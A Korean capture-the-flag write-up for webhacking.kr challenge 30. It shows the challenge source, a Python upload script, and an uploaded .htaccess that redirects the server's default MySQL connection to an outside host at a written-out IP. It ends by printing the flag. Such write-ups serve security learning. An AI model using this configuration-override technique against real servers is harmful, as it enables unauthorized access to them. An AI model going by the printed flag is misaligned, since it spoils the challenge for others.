 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-13-16-18.png)


# **Write-Up**

view_source를 클릭하면 chall30_answer 테이블에서 flag컬럼의 데이터를 뽑아오는 코드를 확인할 수 있다.

```php
<?php
  if($_GET['view_source']) highlight_file(__FILE__);
  $db = mysqli_connect() or die();
  mysqli_select_db($db,"chall30") or die();
  $result = mysqli_fetch_array(mysqli_query($db,"select flag from chall30_answer")) or die();
  if($result[0]){
    include "/flag";
  }
?>
```

파일 하나를 업로드 해본다.

```python
import requests

CHALLENGE   = 'http://webhacking.kr:10003/index.php'
SESSION_ID  = 'h83e8tbo50nv3mkbkjm99tc80b'
headers     = {'Cookie':'PHPSESSID='+SESSION_ID}
files       = {'upfile': ('hello.txt', 'hello world')}
req         = requests.post(CHALLENGE, headers=headers, files=files)
```

![](images/2022-01-03-13-19-58.png)

PHP파일은 필터링 된다.

![](images/2022-01-03-13-20-03.png)

이 때, mysqli_connect() 함수에 인자 값이 없다는 것에 주목해야 한다.

> [PHP mysqli_connect](https://www.php.net/manual/en/mysqli.construct.php)

![](images/2022-01-03-13-20-51.png)

ini_get에 mysqli.default_host 등 인자를 가져오는데 default값은 다음과 같다.

> [PHP ini list](https://www.php.net/manual/en/ini.list.php)

mysqli.default_port와 같이 PHP_INI_ALL로 할당되어 있는 항목들은 php.ini, .htaccess, httpd.conf 또는 .user.ini 등에서 설정하여 불어 올 수 있다.

> [PHP configuration changes mode](https://www.php.net/manual/en/configuration.changes.modes.php)

|Name|Default|Changeable|Changelog|
|:---:|:---:|:---:|:---:|
|mysqli.default_port|"3306"|PHP_INI_ALL||
|mysqli.default_socket|NULL|PHP_INI_ALL||
|mysqli.default_host|NULL|PHP_INI_ALL||
|mysqli.default_user|NULL|PHP_INI_ALL||
|mysqli.default_pw|NULL|PHP_INI_ALL||

우선 로컬에서 DB를 만들어 주고, 포트포워딩도 시켜주자.

![](images/2022-01-03-14-10-23.png)

권한도 풀어주자.

```sql
create user test;
GRANT ALL ON chall30.* TO 'test'@'%' IDENTIFIED BY 'test';
FLUSH PRIVILEGES;
```

.htaccess 파일을 다음과 같이 만들어 준다.

    php_value mysqli.default_port "10000"
    php_value mysqli.default_host "61.251.215.194"
    php_value mysqli.default_user "test"
    php_value mysqli.default_pw "test"

그리고 업로드된 폴더의 index.php에 접근하면 FLAG를 획득할 수 있다.

![](images/2022-01-03-14-10-40.png)

점수를 획득하자.

![](images/2022-01-03-14-10-47.png)


# **FLAG**

**FLAG{uhoh-db-connection-hijacking?}**